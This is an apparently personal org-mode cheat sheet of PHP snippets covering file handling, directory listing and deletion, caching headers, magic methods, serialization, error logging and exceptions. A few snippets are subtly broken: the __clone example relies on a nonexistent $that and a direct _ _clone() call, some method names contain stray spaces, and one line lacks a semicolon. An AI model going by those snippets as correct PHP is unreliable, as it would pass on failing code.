                    dataType : 'json',
                    success: function(data) {
                        $('#demo1').html(data['test']);
                    },
                    error: function() {
                        alert("Something went wrong");
                    }
                });
            }
 
            $(document).ready(function() {                
                ajaxCallDemo1();
            });
 
        </script>
    </head>
 
    <body>
        <div id="demo1"></div>
    </body>
 
</html>
#+end_src

** detect if we are running with *SSL* enabled
#+begin_src php 
/**
 * Detect if Collabtive runs on HTTP or HTTPS
 */
function detectSSL()
{
    if (getArrayVal($_SERVER, "https") == "on") {
        return true;
    } elseif (getArrayVal($_SERVER, "https") == 1) {
        return true;
    } elseif (getArrayVal($_SERVER, "HTTPS") == 'on') {
        return true;
    } elseif (getArrayVal($_SERVER, "HTTPS") == 1) {
        return true;
    } elseif (getArrayVal($_SERVER, "SERVER_PORT") == 443) {
        return true;
    } else {
        return false;
    }
}
#+end_src

** detect current url
#+begin_src php
/**
 * Get the URL Collabtive is running on
 */
function getMyUrl()
{
    if (isset($_SERVER['REQUEST_URI']) && !empty($_SERVER['REQUEST_URI'])) {
        $requri = $_SERVER['REQUEST_URI'];
    } else {
        // assume IIS
        $requri = $_SERVER['SCRIPT_NAME'];
        if (isset($_SERVER['QUERY_STRING']) && !empty($_SERVER['QUERY_STRING'])) {
            $requri .= '?' . $_SERVER['QUERY_STRING'];
        }
    }
    $host = $_SERVER['HTTP_HOST'];
    $pos1 = strrpos($requri, "/");
    $requri = substr($requri, 0, $pos1 + 1);
    if (detectSSL()) {
        $host = "https://" . $host;
    } else {
        $host = "http://" . $host;
    }
    $url = $host . $requri;

    return $url;
}
#+end_src

** get links from url
#+begin_src php
function PIPHP_RelToAbsURL($page, $url)
{
  if (substr($page, 0, 7) != "http://") return $url;

  $parse = parse_url($page);
  $root = $parse['scheme'] . "://" . $parse['host'];
  $p = strrpos(substr($page, 7), '/');

  if ($p) $base = substr($page, 0, $p + 8);
  else $base = "$page/";

  if (substr($url, 0, 1) == '/') $url = $root . $url;
  elseif (substr($url, 0, 7) != "http://") $url = $base . $url;

  return $url;
}

function PIPHP_GetLinksFromURL($page)
{
$contents = @file_get_contents($page);
if (!$contents) return NULL;

  $urls = array();
  $dom = new domdocument();
  @$dom ->loadhtml($contents);
  $xpath = new domxpath($dom);
  $hrefs = $xpath->evaluate("/html/body//a");

  for ($j = 0 ; $j < $hrefs->length ; $j++)
    $urls[$j] = PIPHP_RelToAbsURL($page, $hrefs->item($j)->getAttribute('href'));

  return $urls;
}
#+end_src 

** directory list 
#+begin_src php 
function PIPHP_DirectoryList($path)
{
  $files = array();
  $dirs = array();
  $fnum = $dnum = 0;

  if (is_dir($path))
  {
    $dh = opendir($path);
    do
    {
      $item = readdir($dh);
      if ($item !== FALSE && $item != "." && $item != "..")
      {
          if (is_dir("$path/$item")) $dirs[$dnum++] = $item;
          else $files[$fnum++] = $item;
      }
    } while($item !== FALSE);
    closedir($dh);
  }
  return array($dnum, $fnum, $dirs, $files);
}
#+end_src

** hit counter
#+begin_src php
function PIPHP_HitCounter($filename, $action)
{
  $data = getenv("REMOTE_ADDR") . getenv("HTTP_USER_AGENT") . "\n";
  switch ($action)
  {
    case "reset":
      $fp = fopen($filename, "w");
      if (flock($fp, LOCK_EX))
          ;
      flock($fp, LOCK_UN);
      fclose($fp);
      return;

    case "add":
      $fp = fopen($filename, "a+");
      if (flock($fp, LOCK_EX))
      fwrite($fp, $data);
      flock($fp, LOCK_UN);
      fclose($fp);
      return;

    case "get":
      $fp = fopen($filename, "r");
      if (flock($fp, LOCK_EX))
      $file = fread($fp, filesize($filename) - 1);
      flock($fp, LOCK_UN);
      fclose($fp);
      $lines = explode("\n", $file);
      $raw = count($lines);
      $unique = count(array_unique($lines));
      return array($raw, $unique);

    case "delete":
      unlink($filename);
      return;
  }
}
#+end_src 

** PHP command line syntax checking
*** Syntax checking a single PHP file from the command line
The syntax for checking is like this, where the -l flag is a lower case L:

#+begin_src shell
php -l filename
#+end_src 

*** Syntax check all PHP files in the current directory
#+begin_src shell 
for i in *.php; do php -l $i; done
#+end_src 

*** Syntax check all PHP files in the current directory and all subdirectories
#+begin_src shell 
find . -name \*.php -exec php -l "{}" \;
#+end_src 

** Disable PHP in a directory with Apache .htaccess

If you have a directory which users can upload files into it's a good idea for
security reasons to disable server-side parsing of scripts such as PHP. This
post shows a couple of options using Apache's .htaccess files.

*RemoveHandler and RemoveType*

The handlers for PHP are added using AddType in the Apache configuration, and
should be able to be removed in a .htaccess file like so (adding whatever
additional extensions you need):

#+begin_src 
RemoveHandler .php .phtml .php3
RemoveType .php .phtml .php3
#+end_src 

*php_flag engine off*
Another way to disable PHP in a .htaccess file is by adding a line like this:
#+begin_src 
php_flag engine off
#+end_src 

*To be on the safe side*
#+begin_src 
RemoveHandler .php .phtml .php3
RemoveType .php .phtml .php3
php_flag engine off
#+end_src 

** PHP Caching Headers
*Make sure a page is never cached with PHP*

To make sure the page is never cached (or whatever other dynamic content
generated from PHP such as images, RSS files etc) add the following to the start
of your script:

#+begin_src php
$ts = gmdate("D, d M Y H:i:s") . " GMT";
header("Expires: $ts");
header("Last-Modified: $ts");
header("Pragma: no-cache");
header("Cache-Control: no-cache, must-revalidate");
#+end_src 

*To set the amount of time to cache*

If instead you want the output from the script to be cached for a certain amount
of time, set the expires header to a time in the future. For example, to make it
so the browser will cache the output for 1 hour do this:
#+begin_src php 
$seconds_to_cache = 3600;
$ts = gmdate("D, d M Y H:i:s", time() + $seconds_to_cache) . " GMT";
header("Expires: $ts");
header("Pragma: cache");
header("Cache-Control: max-age=$seconds_to_cache");
#+end_src 

The Cache-Control header requires the number of seconds to cache the file so in
this example it's 3600 because 60 seconds x 60 minutes = 3600.

* json
** json encode raw UTF?

#+begin_src php 
json_encode( $text, JSON_UNESCAPED_UNICODE );
#+end_src 

* webservice
** types of webservices
*** SOAP

SOAP is an acronym for Simple Object Access Protocol.

SOAP is a XML-based protocol for accessing web services.

SOAP is a W3C recommendation for communication between applications.

SOAP is XML based, so it is platform independent and language
independent. In other words, it can be used with Java, .Net or PHP
language on any platform.

*** WSDL

WSDL is an acronym for Web Services Description Language.

WSDL is a xml document containing information about web services such
as method name, method parameter and how to access it.

WSDL is a part of UDDI. It acts as a interface between web service applications.

WSDL is pronounced as wiz-dull.

* classes
** static attributes or methods.
A static property is a class variable that is associated with the class, rather than with an
instance of the class.

Static properties are declared with the static keyword and are
accessed via the syntax ClassName::$property .The following example illustrates
how static properties work:

#+begin_src php
class TestClass {
   public static $counter;
}
$counter = TestClass::$counter;
#+end_src

If you need to access a static property inside a class, you can also use the magic keywords
self and parent , which resolve to the current class and the parent of the current class.

#+begin_src php
class TestClass {
   public static $counter = 0;
      public $id;
   public function _ _construct()
   {
      $this->id = self::$counter++;
    }
}
#+end_src

** ~__clone~ magic method

To actually copy an object in PHP5, you need to use the built-in _ _ clone()
method.

#+begin_src php
$obj = new TestClass;
$copy = $obj->_ _clone();
#+end_src

For some classes, the built-in deep-copy _ _clone() method may not be adequate for
your needs, so PHP allows you to override it. Inside the _ _clone() method, you not
only have $this , which represents the new object, but also $that , which is the object
being cloned. For example, in the TestClass class defined previously in this chapter, if
you use the default _ _clone() method, you will copy its id property. Instead, you
should rewrite the class as follows:

#+begin_src php
class TestClass {
   public static $counter = 0;
   public $id;
   public $other;
   public function _ _construct()
   {
      $this->id = self::$counter++;
   }
   public function _ _clone()
   {
      $this->other = $that->other;
      $this->id = self::$counter++;
   }
}
#+end_src
 
** passing objects as function parameters.
objects are always passed by reference. This means that when you pass an object
into a function, the function operates on that same object, and if it is changed
inside the function, that change is reflected outside.
** Using Magic ~__get~ and ~__set~ Methods
These are called when you access a property that doesn’t exist.

#+begin_src php
class Courier
{
  protected $data = array();
  public function __get($property) {
    return $this->data[$property];
  }
  public function __set($property, $value) {
    $this->data[$property] = $value;
    return true;
  }
}

$courier = new Courier();
$courier->name = 'Avian Carrier';
echo $courier->name;
#+end_src

** counting objects
By default, if you count() an object in PHP, you’ll receive a count of how many
properties it has. However, by implementing the Countable interface as shown below
allows us to hook into this.

#+begin_src php
class Courier implements Countable
{
  protected $count = 0;
  public function ship(Parcel $parcel) {
    $this->count++;
    // ship parcel
    return true;
  }
  public function count() {
    return $this->count;
  }
}

$courier = new Courier();
$courier->ship(new Parcel());
$courier->ship(new Parcel());
$courier->ship(new Parcel());
echo count($courier); // outputs 3
#+end_src

** Using ~__call()~ and ~__callStatic()~
When we call a method that isn’t declared in the class, the ~__call()~ method is
called instead.

#+begin_src php
class Courier {
  public $name;
  public function __construct($name) {
    $this->name = $name;
    return true;
  }

  public function ship($parcel) {
    // sends the parcel to its destination
    return true;
  }
  
  public function __call($name, $params) {
    if($name == 'sendParcel') {
      // legacy system requirement, pass to newer send() method
      return $this->send($params[0]);
    } else {
      error_log('Failed call to ' . $name . ' in Courier class');
    return false;
    }
  }
}
#+end_src 

** serializing

To serialize data in PHP means to convert it into a text-based format that we can
store, for example, in a database.

#+begin_src php
$mycourier = new Courier('Avian Services', 'Australia');
var_dump($mycourier);
$s = serialize($mycourier);
#+end_src 

When we serialize an object, we can unserialize it in any system where the class
definition of the object is available. There are some object properties, however, that
we don’t want to serialize, because they’d be invalid in any other context. A good
example of this is a resource; a file pointer would make no sense if unserialized at
a later point, or on a totally different platform.

To help us deal with this situation, PHP provides the __sleep() and __wakeup()
methods, which are called when serializing and unserializing, respectively. These
methods allow us to name which properties to serialize, and fill in any that aren’t
stored when the object is “woken.”

#+begin_src php
class Courier {
  public $name;
  public $home_country;

  public function __construct($name, $home_country) {
    $this->name = $name;
    $this->home_country = $home_country;
    $this->logfile = $this->getLogFile();
    return true;
  }
  protected function getLogFile() {
      // error log location would be in a config file
      return fopen('/tmp/error_log.txt', 'a');
  }
  public function log($message) {
    if($this->logfile) {
      fputs($this->logfile, 'Log message: ' . $message . "\n");
    }
  }
  public function __sleep() {
    // only store the "safe" properties
    return array("name", "home_country");
  }
  public function __wakeup() {
    // properties are restored, now add the logfile
    $this->logfile = $this->getLogFile();
    return true;
  }
}
#+end_src 

* reflection
** retrieving the name of current function?

~__FUNCTION__~ returns only the name of the function.
while as ~__METHOD__~ returns the name of the class alongwith the name of the function.

#+begin_src php
class foo
{
  function print_func()
  {
            echo __FUNCTION__;
  }
  function print_method()
  {
            echo __METHOD__;
  }
}

$obj = new foo();
$obj->print_func();      // Returns: print_func
$obj->print_method();    // Returns: foo::print_method
//using namespace
class_exists("\\Whoops\\Exception\\ErrorException");
#+end_src
http://www.php.net/manual/en/language.constants.predefined.php
** get type of variable 

#+begin_src php
string gettype ( mixed $var );
<?php

$data = array(1, 1., NULL, new stdClass, 'foo');

foreach ($data as $value) {
    echo gettype($value), "\n";
}

?>
#+end_src 

The above example will output something similar to:

#+begin_src 
integer
double
NULL
object
string
#+end_src 

** property_exists
property_exists() example

#+begin_src php 
<?php

class myClass {
    public $mine;
    private $xpto;
    static protected $test;

    static function test() {
        var_dump(property_exists('myClass', 'xpto')); //true
    }
}

var_dump(property_exists('myClass', 'mine'));   //true
var_dump(property_exists(new myClass, 'mine')); //true
var_dump(property_exists('myClass', 'xpto'));   //true, as of PHP 5.3.0
var_dump(property_exists('myClass', 'bar'));    //false
var_dump(property_exists('myClass', 'test'));   //true, as of PHP 5.3.0
myClass::test();

?>
#+end_src

** check if a class has a property
   
#+begin_src php
bool property_exists ( mixed $class , string $property )
#+end_src

This function checks if the given property exists in the specified class.

Note: As opposed with isset(), property_exists() returns TRUE even if the
property has the value NULL.

Returns TRUE if the property exists, FALSE if it doesn't exist or NULL in case
of an error.

** Verify that the contents of a variable can be called as a function
#+begin_src php 
//  How to check a variable to see if it can be called
//  as a function.

//
//  Simple variable containing a function
//

function someFunction() 
{
}

$functionVariable = 'someFunction';
var_dump(is_callable($functionVariable, false, $callable_name));  // bool(true)
echo $callable_name, "\n";  // someFunction

//
//  Array containing a method
//

class someClass {

  function someMethod() 
  {
  }

}

$anObject = new someClass();
$methodVariable = array($anObject, 'someMethod');
var_dump(is_callable($methodVariable, true, $callable_name));  //  bool(true)
echo $callable_name, "\n";  //  someClass::someMethod
?>
#+end_src 

** call callback given as parameter
#+begin_src php
<?php
error_reporting(E_ALL);
function increment(&$var)
{
    $var++;
}

$a = 0;
call_user_func('increment', $a);
echo $a."\n";

// You can use this instead
call_user_func_array('increment', array(&$a));
echo $a."\n";
?>
#+end_src 

* Debug
** dump all variables?

Use get_defined_vars and/or get_defined_constants

#+begin_src php
$arr = get_defined_vars();
print_r($arr);
#+end_src

#+begin_src php
$a = print_r(var_dump($GLOBALS),1);
echo htmlspecialchars($a);
#+end_src

** send an error message to  the web server's error log or to a file.

#+begin_src php
bool error_log ( string $message [, int $message_type = 0 [, string $destination [, string $extra_headers ]]] )
#+end_src

#+begin_src php
<?php
// Send notification through the server log if we can not
// connect to the database.
if (!Ora_Logon($username, $password)) {
    error_log("Oracle database not available!", 0);
}

// Notify administrator by email if we run out of FOO
if (!($foo = allocate_new_foo())) {
    error_log("Big trouble, we're all out of FOOs!", 1,
               "operator@example.com");
}

// another way to call error_log():
error_log("You messed up!", 3, "/var/tmp/my-errors.log");
?>
#+end_src

** enabling error reporting
   
#+begin_src php
ini_set("display_errors","1");
error_reporting(E_ALL);
#+end_src

** capture the result of ~var_dump()~ to string

You may want to check out var_export — while it doesn't provide the same output
as var_dump it does provide a second $return parameter which will cause it to
return its output rather than print it:
#+begin_src php 
$debug = var_export($my_var, true);
#+end_src 

http://stackoverflow.com/questions/139474/how-can-i-capture-the-result-of-var-dump-to-a-string

** [BH] error logger
#+begin_src php 
<?php
error_reporting(0);
//error_reporting(E_ALL);//should be E_NONE
//error_reporting(E_ERROR | E_PARSE);
ini_set("display_errors",1);
ini_set("track_errors",1);
$old_error_handler = set_error_handler("errorHandler");

function errorHandler ($errno, $errstr, $errfile, $errline) {
    if($errno!=2048) //deprecated warnings
        toLog("errno: {$errno} str: {$errstr} on file: {$errfile} line :{$errline}");
}

function toLog($msg)
{
    if(!array_key_exists("log_handler",$GLOBALS))
    {
        $fh=fopen("/var/log/XBS/xbs_interface.log","a+");
        if(!$fh)
            return;
        $GLOBALS["log_handler"]=$fh;
    }
    else
    {
        $fh=$GLOBALS["log_handler"];
    }
    $timeArr=localtime(time(),1);
    $timeStr="{$timeArr["tm_year"]}/{$timeArr["tm_mon"]}/{$timeArr["tm_mday"]} {$timeArr["tm_hour"]}:{$timeArr["tm_min"]}";
    $phperr=isset($php_errormsg)?$php_errormsg:"";
    fwrite($fh,"{$timeStr} {$msg} {$phperr}\n");
    return;

}

?>
#+end_src

** Making Assertions
To disable assert( ) calls, use this line of code: 
#+begin_src php
assert_options(ASSERT_ACTIVE, 0);
#+end_src 

And to make PHP end script execution rather than just issue a warning, we can use this line of code: 

#+begin_src php 
assert_options(ASSERT_BAIL, 1);
#+end_src 

ASSERT_CALLBACK is a useful option, as it allows you to write an error handler
for when your code fails an assertion.

#+begin_src php
function assert_failed($file, $line, $expr) {
        print "Assertion failed in $file on line $line: $expr\n";
}
assert_options(ASSERT_CALLBACK, 'assert_failed');
assert_options(ASSERT_WARNING, 0);
$foo = 10;
$bar = 11;
assert($foo > $bar);
#+end_src

ASSERT_WARNING is also disabled, which stops PHP from outputting a warning as well as running the callback function. 

** enabling assertions for php 7
change =assert.active= in  =/etc/php/apache2/php.ini= to On.
Assertions are OFF out of the box on 7.0.
#+begin_src 
assert.active = On
#+end_src 

** CATCH ALL EXCEPTIONS AND ERRORS IN A NORMALIZED AND CONSISTENT MATTER
#+begin_src php
error_reporting(ENV === 'dev' ? E_ALL : 0);

set_error_handler("error_handler");
set_exception_handler("error_handler");
register_shutdown_function("error_handler");

function error_handler()
{
    // Check for unhandled errors (fatal shutdown)
    $e = error_get_last();

    // If none, check function args (error handler)
    if($e === null)
        $e = func_get_args();

    // Return if no error
    if(empty($e))
        return;

    // "Normalize" exceptions (exception handler)
    if($e[0] instanceof Exception)
    {
        call_user_func_array(__FUNCTION__, array(
            $e[0]->getCode(),
            $e[0]->getMessage(),
            $e[0]->getFile(),
            $e[0]->getLine(),
            $e[0]));
        return;
    }

    $e = array_combine(array('number', 'message', 'file', 'line', 'context'), array_pad($e, 5, null));
    
    var_dump($e);
    exit;
}
#+end_src
This way the only irregularity should be the last property, context. In cases of
errors this will be an array with variables in the context where the error
occurred, while for exceptions I’m setting it to the Exception itself. Normally
you’d then pass $e to something that would format the information nicely to the
user, do some logging or whatever.

* exceptions
** Throwing Exceptions

#+begin_src php
// something has gone wrong
throw new Exception('Meaningful error message string');
#+end_src 

** Extending Exceptions

#+begin_src php
class HeavyParcelException extends Exception {}
#+end_src 

We can set any properties or add any methods we desire to this Exception class.

** Setting a Global Exception Handler

To avoid seeing fatal errors where exceptions have been thrown and our code failed
to catch them, we can set a default behavior for our application in this situation.
To do this, we use a function called =set_exception_handler()= . This accepts a
callback as its parameter, so we can give the name of a function to use, for example.
An exception handler will usually present an error screen to the user—much nicer
than a fatal error message!

#+begin_src php
//A basic exception handler would look similar to this:
function handleMissedException($e) {
  echo "Sorry, something is wrong. Please try again, or contact us if the problem persists";
  error_log('Unhandled Exception: ' . $e->getMessage() . ' in file ' . $e->getFile() . ' on line ' . $e->getLine());
}
set_exception_handler('handleMissedException');
throw new Exception('just testing!');
#+end_src 

* patterns
** value object pattern

*The Problem*
So, how do you implement a lightweight, or easy to construct, descriptive object like Date or Dollar?

*The Solution*
Lightweight objects should behave like PHP integers: if you assign the same object to two different
variables and then change one of the variables, the other variable should remain unaffected.

#+begin_src php
class Dollar {
   protected $amount;
   public function __construct($amount=0) {
     $this->amount = (float)$amount;
   }
   public function getAmount() {
      return $this->amount;
   }
   public function add($dollar) {
      return new Dollar($this->amount + $dollar->getAmount());
   }
}
#+end_src

The fundamentals of the ValueObject pattern in PHP 5 are:
1. Protect the attributes of a Value Object so direct access is forbidden.
2. Set the object’s attributes in the constructor.
3. Provide no “setter” functions, which otherwise allow attributes to be altered.
** The factory pattern
*The Problem*
How can you create such “complex” objects easily and conveniently—without cut-and-paste pro-
gramming?

*The Solution*
Create a “factory”—a function or a class method— to “manufacture” new objects.
** creational 
*** Factory method
*** prototype

* files
** Reading Entire files

To read the contents of a file into a string, use =file_get_contents()=. Pass it a file‐
name, and it returns a string containing everything in the file.

** Writing Entire file
use =file_put_contents()=.

#+begin_src php
// Write the results to page.html
file_put_contents('page.html', $page);
#+end_src 

** Reading and writing parts of files

use =file()= function to access each line of file.
=file()= reads the whole file into an array and it is not good for large files.

#+begin_src php
foreach (file('people.txt') as $line) {
  $line = trim($line);
  $info = explode('|', $line);
  print '<li><a href="mailto:' . $info[0] . '">' . $info[1] ."</li>\n";
}
#+end_src 

** reading a file one line at a time

#+begin_src php
$fh = fopen('people.txt','rb');
while ((! feof($fh)) && ($line = fgets($fh))) {
  $line = trim($line);  // fgets() includes the trailing newline at the end of line.
  $info = explode('|', $line);
  print '<li><a href="mailto:' . $info[0] . '">' . $info[1] ."</li>\n";
}
fclose($fh);
#+end_src 

** Inserting CSV data into a database table
  
#+begin_src php
try {
  $db = new PDO('sqlite:/tmp/restaurant.db');
} catch (Exception $e) {
  print "Couldn't connect to database: " . $e->getMessage();
  exit();
}
$fh = fopen('dishes.csv','rb');
$stmt = $db->prepare('INSERT INTO dishes (dish_name, price, is_spicy) VALUES (?,?,?)');

while ((! feof($fh)) && ($info = fgetcsv($fh))) {
  // $info[0] is the dish name (the first field in a line of dishes.csv)
  // $info[1] is the price (the second field)
  // $info[2] is the spicy status (the third field)
  // Insert a row into the database table
  $stmt->execute($info);
  print "Inserted $info[0]\n";
}
// Close the file
fclose($fh);
#+end_src 

** Writing CSV-formatted data to a file

#+begin_src php
try {
  $db = new PDO('sqlite:/tmp/restaurant.db');
} catch (Exception $e) {
  print "Couldn't connect to database: " . $e->getMessage();
  exit();
}
// Open the CSV file for writing
$fh = fopen('dish-list.csv','wb');
$dishes = $db->query('SELECT dish_name, price, is_spicy FROM dishes');
while ($row = $dishes->fetch(PDO::FETCH_NUM)) {
    // Write the data in $row as a CSV-formatted string. fputcsv()
    // adds a newline at the end.
  fputcsv($fh, $row);
}
fclose($fh);
#+end_src 

** changing the page type of CSV
   
#+begin_src php
// Tell the web client to expect a CSV file
header('Content-Type: text/csv');
// Tell the web client to view the CSV file in a separate program
header('Content-Disposition: attachment; filename="dishes.csv"');
#+end_src

** delete all files in a directory
#+begin_src php
<?PHP
 
FUNCTION emptyDir($path) { 
 
     // init the debug string
     $debugStr = '';
     $debugStr .= "Deleting Contents Of: $path<br /><br />";
 
     // parse the folder
     IF ($handle = OPENDIR($path)) {
 
          WHILE (FALSE !== ($file = READDIR($handle))) {
 
               IF ($file != "." && $file != "..") {
 
               // If it's a file, delete it
               IF(IS_FILE($path."/".$file)) {
 
                    IF(UNLINK($path."/".$file)) {
                    $debugStr .= "Deleted File: ".$file."<br />";     
                    }
 
               } ELSE {
 
                    // It's a directory...
                    // crawl through the directory and delete the contents               
                    IF($handle2 = OPENDIR($path."/".$file)) {
 
                         WHILE (FALSE !== ($file2 = READDIR($handle2))) {
 
                              IF ($file2 != "." && $file2 != "..") {
                                   IF(UNLINK($path."/".$file."/".$file2)) {
                                   $debugStr .= "Deleted File: $file/$file2<br />";     
                                   }
                              }
 
                         }
 
                    }
 
                    IF(RMDIR($path."/".$file)) {
                    $debugStr .= "Directory: ".$file."<br />";     
                    }
 
               }
 
               }
 
          }
 
     }
     RETURN $debugStr;
}
 
 
#+end_src

** List files in directory
#+begin_src php
<?PHP 
 
IF ($handle = OPENDIR('/system/path/to/files')) { 
    ECHO "Files:\n"; 
 
    // list out the files 
    WHILE (FALSE !== ($file = READDIR($handle))) { 
        ECHO "$file\n"; 
    } 
 
    CLOSEDIR($handle); 
} 
 
?> 
#+end_src

** Test If File Is Included

#+begin_src php
<?PHP
 
IF(__FILE__ == $_SERVER['SCRIPT_FILENAME'])
    DIE("This file cannot be executed directly");
 
?>
#+end_src

** Get all files into an Array

#+begin_src php
<?PHP
 
$files = GLOB('/path/to/some/directory/*.*');
 
PRINT_R($files);  
 
?>
#+end_src

** Directory Listing

#+begin_src php
<?PHP
 
//define the path as relative
$path = "/home/yoursite/public_html/whatever";
 
//using the opendir function
$dir_handle = @OPENDIR($path) or DIE("Unable to open $path");
 
ECHO "Directory Listing of $path<br/>";
 
//running the while loop
WHILE ($file = READDIR($dir_handle)) {
        ECHO "<a href=$file>$file</a><br/>";
}
 
//closing the directory
CLOSEDIR($dir_handle);
 
?> 
#+end_src

** Directory Listing #2

#+begin_src php
<?PHP
 
// No slash at the end
$main_dir = 'path/to/dir'; 
 
$dirs = GLOB("{$main_dir}/*", GLOB_ONLYDIR);
$dirs = ARRAY_MAP('basename', $dirs);
$dirs = ARRAY_FILTER($dirs, 'no_underscore');
 
FUNCTION no_underscore($dirname){
    RETURN $dirname[0] != '_';
}
 
ECHO '<pre>', PRINT_R($dirs, TRUE), '</pre>'; 
 
?>
#+end_src

** Copy File From Server

#+begin_src php
<?PHP
 
$inputfile = FOPEN("http://the-remote-server.com/inputfile.txt", "r");
$outputfile = FOPEN("outputfile.txt", "w");
ECHO "File opened...";
$data = '';
 
WHILE (!FEOF($inputfile)) {
  $data .= FREAD($inputfile, 8192);
}
 
ECHO "Data read...";
FWRITE($outputfile, $data);
ECHO "transfered data";
FCLOSE ($inputfile);
FCLOSE ($outputfile);
 
ECHO "Done.";
 
?>
 
#+end_src

** Count lines in file

#+begin_src php
<?PHP  
 
$file = "somefile.txt";  
$lines = COUNT(FILE($file));  
ECHO "There are $lines lines in $file";
 
?> 
#+end_src

** Delete by date
   
#+begin_src php
<?PHP
 
// set delete time threshold for two weeks
$DAYS = 14;
 
IF (IS_DIR("$path") ){
   $handle=OPENDIR($path);
   WHILE (FALSE!==($file = READDIR($handle))) {
       IF ($file != "." && $file != "..") { 
           $Diff = (TIME() - FILECTIME("$path/$file"))/60/60/24;
           IF ($Diff > $DAYS) UNLINK("$path/$file");
       }
   }
   CLOSEDIR($handle);
}
 
?>
#+end_src

** Delete by wildcard

#+begin_src php
 <?PHP
 
FOREACH (GLOB("*.jpg") AS $filename) {
   ECHO "$filename size " . FILESIZE($filename) . "\n";
   UNLINK($filename);
}
 
?>
#+end_src

** Download File To Client

#+begin_src php
<?PHP
 
FUNCTION send_file($name) {
  OB_END_CLEAN();
  $path = "protected/".$name;
  IF (!IS_FILE($path) or CONNECTION_STATUS()!=0) RETURN(FALSE);
  HEADER("Cache-Control: no-store, no-cache, must-revalidate");
  HEADER("Cache-Control: post-check=0, pre-check=0", FALSE);
  HEADER("Pragma: no-cache");
  HEADER("Expires: ".GMDATE("D, d M Y H:i:s", MKTIME(DATE("H")+2, DATE("i"), DATE("s"), DATE("m"), DATE("d"), DATE("Y")))." GMT");
  HEADER("Last-Modified: ".GMDATE("D, d M Y H:i:s")." GMT");
  HEADER("Content-Type: application/octet-stream");
  HEADER("Content-Length: ".(string)(FILESIZE($path)));
  HEADER("Content-Disposition: inline; filename=$name");
  HEADER("Content-Transfer-Encoding: binary\n");
  IF ($file = FOPEN($path, 'rb')) {
   WHILE(!FEOF($file) and (CONNECTION_STATUS()==0)) {
     PRINT(FREAD($file, 1024*8));
     FLUSH();
   }
   FCLOSE($file);
  }
  RETURN((CONNECTION_STATUS()==0) and !CONNECTION_ABORTED());
}
 
?>
 
 
And here's an example of using the function:
 
<?PHP
 
IF (!send_file("platinumdemo.zip")) {
DIE ("file transfer failed");
 
// either the file transfer was incomplete
// or the file was not found
 
} ELSE {
 
// the download was a success
// log, or do whatever else
}
 
?> 
#+end_src

** Get filesize without downloading

#+begin_src php
<?PHP
 
$file = 'http://www.example.com/file.zip';
 
$fp   = FOPEN( $file, 'r' );
$data = STREAM_GET_META_DATA( $fp )
FCLOSE( $fp );
 
PRINT_R( $data );
 
/*
$data will contain something similar to the following:
 
Array
(
    [0] => HTTP/1.1 200 OK
    [1] => Date: Sat, 23 Jun 2007 00:48:50 GMT
    [2] => Server: Apache/2.2.0 (Fedora)
    [3] => Last-Modified: Sat, 23 Dec 2006 20:05:47 GMT
    [4] => ETag: "9f2523-25b0-1716fcc0"
    [5] => Accept-Ranges: bytes
    [6] => Content-Length: 9648
    [7] => Connection: close
    [8] => Content-Type: image/jpeg
)
 
You'll want the Content-Length header for file size, or $data[6].
 
*/
 
?>
#+end_src
 
** Test if a give filesystem path is absolute.
#+begin_src php 
function path_is_absolute( $path ) {
	/*
	 * This is definitive if true but fails if $path does not exist or contains
	 * a symbolic link.
	 */
	if ( realpath($path) == $path )
		return true;

	if ( strlen($path) == 0 || $path[0] == '.' )
		return false;

	// Windows allows absolute paths like this.
	if ( preg_match('#^[a-zA-Z]:\\\\#', $path) )
		return true;

	// A path starting with / or \ is absolute; anything else is relative.
	return ( $path[0] == '/' || $path[0] == '\\' );
}
#+end_src 

** Join two filesystem paths together.
#+begin_src php 
function path_join( $base, $path ) {
	if ( path_is_absolute($path) )
		return $path;

	return rtrim($base, '/') . '/' . ltrim($path, '/');
}
#+end_src

** simple directory recursion
#+begin_src php 
// This should return false if there is something you want excluded
function filter($file, $key, $iterator)
{
    $exclude = array('.git');
    return ! in_array($file->getFilename(), $exclude);
}

// Recursive directory iterator for current directory, ignoring dots
$it = new RecursiveDirectoryIterator('.', FilesystemIterator::SKIP_DOTS);
// Wrapped by a filtering iterator with our filter function
$it = new RecursiveCallbackFilterIterator($it, 'filter');
// Wrapped by an iterator which automatically traverses children for us
$it = new RecursiveIteratorIterator($it, RecursiveIteratorIterator::SELF_FIRST);

// And then just loop :)
foreach($it as $file)
{
    echo str_repeat("\t", $it->getDepth())
        . $file->getRealPath()
        . PHP_EOL;
}
#+end_src 
** delete directory recursively
#+begin_src php
function delete_directory($dir)
{
    if( ! file_exists($dir))
        return;

    $it = new RecursiveDirectoryIterator($dir);
    $it = new RecursiveIteratorIterator($it, RecursiveIteratorIterator::CHILD_FIRST);

    foreach($it as $file)
        if($file->isDir())
            @rmdir($file->getRealPath());
        else
            @unlink($file->getRealPath());
}
#+end_src 

** STREAM A FILE LINE-BY-LINE USING A GENERATOR 
#+begin_src php
function read($file)
{
    $fp = fopen($file, 'rb');

    while(($line = fgets($fp)) !== false)
        yield rtrim($line, "\r\n");

    fclose($fp);
}

// Usage
foreach(read('http://example.com') as $line)
{
    var_dump($line);
}
#+end_src

** Remove extension from a filename with PHP
*** Using pathinfo
The pathinfo() function returns an array containing the directory name,
basename, extension and filename. Alternatively, you can pass it one of the
PATHINFO_ constants and just return that part of the full filename:
#+begin_src php 
$filename = 'filename.html';
$without_extension = pathinfo($filename, PATHINFO_FILENAME);
#+end_src 

If the filename contains a full path, then only the filename without the
extension is returned.

*** Using basename
If the extension is known and is the same for the all the filenames, you can
pass the second optional parameter to basename() to tell it to strip that
extension from the filename:
#+begin_src php 
$filename = 'filename.html';
$without_extension = basename($filename, '.html');
#+end_src 

If the filename contains a full path, then only the filename without the
extension is returned.

*** Using substr and strrpos
#+begin_src php 
$filename = 'filename.html';
$without_extension = substr($filename, 0, strrpos($filename, "."));
#+end_src 

If the filename contains a full path, then the full path and filename without
the extension is returned. You could basename() it as well to get rid of the
path if needed (e.g. basename(substr($filename, 0, strrpos($filename, "."))))
although it's slower than using pathinfo.

*** Benchmarking
Running each of these in a loop 10,000,000 times on my Mac with PHP 5.4:

pathinfo: 10.13 seconds
basename: 7.87 seconds
substr/strrpos: 6.05 seconds
basename(substr/strrpos): 11.98 seconds

If the filename doesn't contain the full path or it doesn't matter if it does,
then the substr/strrpos option appears to be the fastest.

If the filename does contain a path and you don't want the path but do know what
the extension you want to remove is, then basename appears to be the fastest.

If the filename contains a path, you don't want the path and you don't know what
the extension is, then use the pathinfo() option.

** Get the directory name, filename and extension with pathinfo()
